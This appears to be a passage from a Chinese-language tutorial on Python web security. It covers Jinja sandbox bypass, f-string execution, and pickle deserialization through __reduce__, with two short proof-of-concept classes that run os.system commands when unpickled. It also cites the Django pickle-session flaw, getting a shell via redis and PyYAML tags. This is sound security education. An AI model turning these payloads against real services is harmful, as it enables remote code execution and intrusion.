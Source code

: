 Jinja的沙盒绕过与此同理。顺便一说，在[paper](https://paper.seebug.org/175/)还提到的f修饰符很有意思，在python3.6版本会后，被f/F修饰的字符串将会被当做代码执行。



**反序列化**

****

**Cpickle/pickle 反序列化：**

python2 使用cPickle，python3 使用pickle，__reduce__函数会在被反序列化是执行，类似php里的__wakeup，当我们序列化了一个带有__reduce__的类时，将其反序列化即可执行__reduce__里的代码



```
import os
    import cPickle
    a = 1
    # Exploit that we want the target to unpickle
    class Exploit(object):
        def __reduce__(self):
            global a
            a = 10
            os.system("pwd")
            return (os.system, ('ls',))
    shellcode = cPickle.dumps(Exploit())#cPickle.dumps序列化操作
    cPickle.loads(shellcode)#cPickle.loads反序列化操作
    print a
```

pickle用法类似



```
import os
    import pickle
    # Exploit that we want the target to unpickle
    class Exploit(object):
        def __reduce__(self):
            return (os.system, ('ls',))
    shellcode = pickle.dumps(Exploit())
    pickle.loads(shellcode)
```

[Django任意代码](http://www.freebuf.com/vuls/77591.html)在django1.6版本前存在任意代码执行漏洞，其漏洞起因就是pickle。

在django1.6以下，session默认是采用pickle执行序列号操作，在1.6及以上版本默认采用json序列化，但还需要知道SECRET_KEY以及目标采用了signed_cookies。

[掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)，通过redis写session从而反序列化getshell。

**PyYAML 对象类型解析导致的命令执行问题：**

[http://blog.knownsec.com/2016/03/pyyaml-tags-parse-to-command-execution/](http://blog.knownsec.com/2016/03/pyyaml-tags-parse-to-command-execution/) 



